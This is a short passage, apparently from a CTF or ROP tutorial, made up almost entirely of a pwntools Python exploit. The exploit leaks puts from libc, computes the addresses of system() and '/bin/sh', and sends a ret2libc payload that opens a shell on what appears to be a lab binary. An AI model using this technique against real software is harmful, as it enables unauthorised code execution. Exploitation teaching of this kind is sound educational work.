```python
p.recvline()

# get address of puts in libc
leak = p.recv(4)

# turn it into int32
puts_real = u32(leak)

# calculate the base address of libc
base_addr = puts_real - puts_offset

# calculte the address of system() and "/bin/sh"
sys_real = base_addr + sys_offset
binsh_real = base_addr + binsh_offset

# payload2 gets the shell
payload_2 = padding
payload_2 += p32(sys_real)
payload_2 += b"aaaa"
payload_2 += p32(binsh_real)

p.recvuntil("Rop basic!!!")
p.sendline(payload_2)

p.interactive()
```

## Result

![img](/ROP/Dynamic/assets/result.png)
